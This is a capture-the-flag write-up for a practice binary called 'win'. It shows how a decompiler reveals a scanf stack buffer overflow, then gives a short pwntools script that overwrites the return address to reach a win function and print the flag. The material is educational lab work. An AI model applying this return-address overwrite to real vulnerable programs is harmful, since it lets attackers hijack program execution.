



---
title: "CWE Challenge - Win"
author: Michael Mendoza
date: "2023-01-21"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...

# Information Gathering

## Ghidra

After decompiling the binary, we can see that the vulnerability is in the read_in function.


\ **Figure 1:** Read_In Function

The right side shows how scanf is used to overflow buf which can only hold 44 bytes. On the left side, we can see the buf variable is at an offset of 0x38 bytes.

We can also see the win function right above the read_in function!


\ **Figure 2:** Win Function

It looks like the win function is at an address of 0x08049df5. 

# Creating the Exploit

This exploit will be simple, we overwrite the instruction pointer to point to the address of the win function, which will print the flag.

## Python Script

```
from pwn import *

offset = 0x38* b'A' #offset found in Ghidra

p = process('./win') #create variable p for process interaction

win = p32(0x08049df5) #found win function at this address, packed it with 32bit package

payload = offset + win

p.sendline(payload) 

p.interactive()
```

## Flag


\ **Figure 3:** Flag

Our exploit works!

# Conclusion

Learning how the stack can be exploited by a buffer overflow attack and how to overwrite the instruction pointer was important to solving this challenge.

# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
